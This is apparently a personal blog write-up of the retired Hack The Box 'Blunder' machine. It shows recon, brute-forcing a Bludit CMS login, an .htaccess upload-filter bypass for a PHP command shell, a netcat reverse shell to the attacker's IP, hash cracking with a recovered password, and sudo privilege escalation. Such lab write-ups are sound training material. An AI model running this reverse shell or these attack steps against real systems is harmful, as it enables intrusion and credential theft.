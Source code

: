 ```yaml
---
title: 'Writeup - Hack The Box Blunder'
permalink: /htb-blunder/
categories:
    - 'Hack the Box'
    - 'Penetration Testing'
tags:
    - Blunder
    - 'Hack The Box'
    - HTB
    - 'Penetration Testing'
    - Pentesting
---
```


## Intro

![_config.yml]({{ site.baseurl }}/images/htb_blunder/blunder.png)

The following post will describe how I hacked the previously retired Blunder Box. However, I am not an experienced Pentester, therefore take everything I say with a grain of salt. Now let’s have some fun with this nice Linux Box.

## Setup

As usual add the box to the */etc/hosts* file. This makes our lives easier, since we do not need to remember the IP-Address.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hosts_file.png)

## Recon

In order to discover potential attack vectors, we have to enumerate the target using nmap.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/nmap.png)

Apache webserver is running on port 80 and we are able to visit the website hosted on the machine using an ordinary browser. After playing around a little bit – there is not a lot that can be done – it looks like a minimalistic blog.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/blog.png)

In order to find out if there are any directories or files on the webserver which are not linked we can make use of [gobuster](https://tools.kali.org/web-applications/gobuster). There are many other alternatives, even tools that provide a GUI (eg.: [dirbuster](https://tools.kali.org/web-applications/dirbuster)).

Just a few seconds later, we already found a some interesting files.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/gobuster.png)

Implementing REP (Robots-Exclusion-Standard-Protocol), *robots.txt* is also often a source of hidden paths which might not be covered by an ordinary wordlist, however, in this case it is useless as it contains nothing.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/robots.png)

The only really useful information that I was able to fetch was the username “*fergus*” from within a text file called *todo.txt*.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/fergus_user.png)

The CMS used is called [Bludit ](https://github.com/bludit/bludit)and with a closer look at the sites html header, the exact version (**3.9.2**) can be determined.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/bludit_version.png)

Now that we have all the information that we can get (at least for now), it is time to find vulnerabilities. After the last step, we know some of the specifics of the CMS and [exploit-db](https://www.exploit-db.com) offers some usable results.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/bludit_vulnerabilities.png)

Let’s use the available python script to bruteforce the passwords. Seems like it simply parses the CSRF token from the HTML, passes it in the request header and finally issues the login request with the provided username and password. In order to check if the login was successful the script checks for “*/admin/dashboard*“. The most promising usernames are probably *“admin*” and “*fergust*“. In order to guess the password *rockyou.txt* can be worth a shot.

``` bash
python3 blunder_bf.py -l http://htb.blunder/admin/login.php -p /usr/share/wordlists/rockyou.txt -u users.txt
```

![_config.yml]({{ site.baseurl }}/images/htb_blunder/brute_force_1.png)

However, I had to give up after some time since I was not able to find a working combination. The password has to be somewhere on the webpage. Let’s try the wordlist generator [cewl](https://tools.kali.org/password-attacks/cewl) to generate a password-list with the content of the page and repeat the above process.

``` bash
cewl http://htb.blunder > passwords.txt
```

``` bash
python3 blunder_bf.py -l http://htb.blunder/admin/login.php -p passwords.txt -u users.txt
```

![_config.yml]({{ site.baseurl }}/images/htb_blunder/brute_force_2.png)

Finally success, we have the credentials and we can login as user “*fergus*“.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/admin_dashboard.png)

Using the browser again, we are in the admin dashboard. Btw, I really like the “visits curve” ;-).

There is not a lot we can do due to missing permissions, however, it seems like we are able to post and upload files. Interesting!, especially because there was a path traversal attack in the exploit database.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/fileupload_filter.png)

After playing a round a little bit, it seems like there are two checks in the code. First, before uploading – in the browser – and also later on the backend. Selecting a file with the file-ending .gif and altering the request won’t work. Uploading a file with the allowed file endings makes no sense, since then they won’t be executed. Also the file endings provided do not look promising for any attack that I am aware of (except maybe XSS for the svg, but that does not help right now). What if the backend verifies the file header, not the file-ending. I ended up downloading a random GIF file from google to read the files magic header. Btw, there is also a huge database available online: [https://www.garykessler.net/library/file\_sigs.html](https://www.garykessler.net/library/file_sigs.html)

![_config.yml]({{ site.baseurl }}/images/htb_blunder/gif_header.png)

I tried to add the magic header in front of the php code, however, was not able to trick the server into accepting the file.

After almost giving up, I stumbled upon the following issue in git: <https://github.com/bludit/bludit/issues/1081>  
The trick of the exploit was to upload a “*.htaccess*” file which switches off the RewriteEngine (<https://httpd.apache.org/docs/current/howto/htaccess.html>). The following lines show the corresponding request.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/exploit_1.png)

After that we are able to upload the “*expoit.php*” file as follows. It will execute commands provided with the “q” parameter. This allows for more flexibility to structure the reverse shell code.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/exploit.png)

I ended up using the following reverse shell.

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4444 >/tmp/f
```

As soon as the payload executed, the attack machines listener got the connection to the target.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/reverse_shell_listener.png)

Poking around a little, I figured that reading the “*user.txt*” flag was not possible since the process was running as “*www-data*” user. We have to perform privilege escalation in order to get to the flag.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/www-data_user.png)

On the target machine, the following path looked promising. A “*users.php*” file was present, in it two hashes for the “*admin”* and the “*hugo”* users. Both salted, however.

``` bash
/var/www/bludit-3.9.2/bl-content/databases
```

I had to try my luck on the admin user credentials, so I identified the hash using [hash-identifier](https://tools.kali.org/password-attacks/hash-identifier).

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hash_identifier.png)

Looking through the source code of Bludit in github, indeed, the password is for this version is of the form *sha1(password.salt)*:

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hash_git.png)

However, due to the salted password, it is not possible to use a rainbow table… I tried to crack it using [hashcat](https://tools.kali.org/password-attacks/hashcat), but after some time I had to give up.

``` bash
hashcat --hex-salt --hash-type 110 -a 3 admin.hash /usr/share/wordlists/rockyou.txt
```

Back on the Blunder Box, I found another path to a updated newer version of Bludit that I previously missed.

``` bash
/var/www/bludit-3.10.0a/bl-content/databases
```

It also contains a hash, however it seems like no salt is used. Therefore rainbowtables can be used!

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hash_without_salt.png)

Using [CrackStation](https://crackstation.net/) I was able to crack the hash in a matter of seconds. The credentials are “*hugo:Password120*“.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hugo_user.png)

Aaaaaaaand we are able to grab the first flag in user.txt!

``` bash
90c8********************7f0d
```

## Getting root

However, our current user “*hugo”* cannot make use of sudo and does not have permissions to grab the *root.txt* file.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/sudo_version.png)

Googling for sudo 1.8.25p1 led me to the following exploit on [exploit-db](https://www.exploit-db.com/exploits/47502) (again).

In order for the attack to work, I had to spawning a TTY Shell using python.

``` bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

After that I was able to exploit the vulnerability mentioned above in order to get root!

![_config.yml]({{ site.baseurl }}/images/htb_blunder/privilage_escalation_root.png)

Finally, the last flag in */root/root.txt* can be grabbed. ***S******uccess!***

``` bash
5495********************cf40
```

This box really was fun, and for me as a beginner, the challenge was quite hard to be honest. However, finishing a box is always a nice experience and you definitely get better and better every time.